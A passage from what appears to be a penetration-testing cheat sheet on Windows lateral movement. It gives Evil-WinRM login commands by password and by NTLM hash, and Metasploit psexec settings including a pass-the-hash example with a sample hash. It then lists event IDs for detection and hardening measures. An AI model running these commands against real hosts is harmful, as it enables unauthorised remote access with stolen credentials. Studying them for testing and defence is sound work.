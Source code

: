 #### Evil-WinRM
```bash
# WinRM with password
evil-winrm -i target_ip -u username -p password

# WinRM with hash
evil-winrm -i target_ip -u username -H hash

# WinRM with SSL
evil-winrm -i target_ip -u username -p password -S
```

#### Metasploit
```bash
# psexec module
use exploit/windows/smb/psexec
set RHOSTS target_ip
set SMBUser username
set SMBPass password
exploit

# Pass the hash module
use exploit/windows/smb/psexec
set RHOSTS target_ip
set SMBUser username
set SMBPass aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76
exploit
```

### Defense and Detection

#### Detection Indicators
```bash
# Windows Event Logs to monitor:
# - Event ID 4624: Successful logon (Type 3 - Network)
# - Event ID 4625: Failed logon attempt
# - Event ID 4648: Explicit credential logon
# - Event ID 4672: Special privileges assigned
# - Event ID 5140: Network share accessed
```

#### Defensive Measures
```bash
# Enable SMB signing
# Disable NTLM authentication where possible
# Implement LAPS for local admin passwords
# Use Protected Users group
# Monitor for lateral movement patterns
# Implement network segmentation
```

### Advanced Techniques
